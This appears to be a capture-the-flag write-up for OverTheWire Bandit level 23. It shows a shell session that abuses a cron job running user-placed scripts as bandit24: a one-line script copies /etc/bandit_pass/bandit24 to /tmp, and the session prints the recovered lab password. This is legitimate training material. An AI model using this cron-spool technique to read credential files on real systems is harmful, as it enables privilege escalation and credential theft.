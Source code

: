 ### Level 23

On [level23](https://overthewire.org/wargames/bandit/bandit23.html) you're given a script that runs all the code in one directory as the user from the next level, so you'll just have to make a script to get the password from */etc/bandit_pass/bandit24*.

```zsh
notkame@mymachine: ~$ ssh ssh -p 2220 bandit23@bandit.labs.overthewire.org

bandit23@bandit.labs.overthewire.org password:
[...]

bandit23@bandit:~$ cd /etc/cron.
cron.d/       cron.daily/   cron.hourly/  cron.monthly/ cron.weekly/  
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .\*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
bandit23@bandit:/tmp/shiro23$ cat solution.sh
cat /etc/bandit_pass/bandit24 > /tmp/shiro23/flag.txt
bandit23@bandit:/tmp/shiro23$ chmod +x solution.sh
bandit23@bandit:/tmp/shiro23$ cp solution.sh /var/spool/bandit24/
bandit23@bandit:/tmp/shiro23$ chmod -x flag.txt
bandit23@bandit:/tmp/shiro23$ ls -lA
total 8
-rw-rw-rw- 1 bandit23 root 33 Jul 17 20:22 flag.txt
-rwxrwxrwx 1 bandit23 root 58 Jul 17 20:17 solution.sh
bandit23@bandit:/tmp/shiro23$ cat flag.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit23@bandit:/tmp/shiro23$ exit
logout
Connection to bandit.labs.overthewire.org closed.
```
